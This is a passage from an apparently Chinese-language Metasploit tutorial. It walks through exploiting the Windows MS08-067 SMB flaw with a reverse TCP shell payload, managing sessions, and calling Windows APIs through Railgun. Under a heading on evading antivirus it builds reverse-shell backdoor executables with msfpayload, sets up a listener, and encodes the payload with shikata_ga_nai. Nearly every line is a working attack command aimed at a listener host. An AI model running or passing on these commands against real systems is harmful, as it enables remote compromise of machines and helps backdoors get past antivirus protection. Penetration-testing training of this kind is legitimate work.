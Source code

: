 ```
msfconsole
msf> search ms08_067
msf> use windows/smb/ms08_067_netapi
set PAYLOAD windows/shell/reverse_tcp
set TARGET 3
setg LHOST 192.168.1.111
setg LPORT 8080
exploit –z  #后台运行，如果此处未使用-z参数，后面可以按CTRL-Z转到后台
sessions –u 1  #升级shell，必须前面使用setg设定
sessions –i 2
```

### 6、使用Railgun操作windows APIs 

例子：

```
meterpreter> irb
>>client.railgun.user32.MessageBoxA(o,”hello”,”world”,”MB_OK”)
```

在目标机器上会弹出一个标题栏为world和内容为hello的窗口


## 七．避开杀软

### 1、使用msfpayload创建可执行后门：

例子：

```
msfpayload windows/shell_reverse_tcp 0  #查看选项
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=31337 X > /var/www/payload1.exe
```

然后本机监听端口

```
msf> use exploit/multi/handler
show options
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.111
set LPORT 31337
exploit
```

### 2、过杀软---使用msfencode编码后门：

msfencode –l  #列出可用编码器

例子：

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=31337 R |msfencode –e x86/shikata_ga_nai –t exe > /var/www/payload2.exe
```
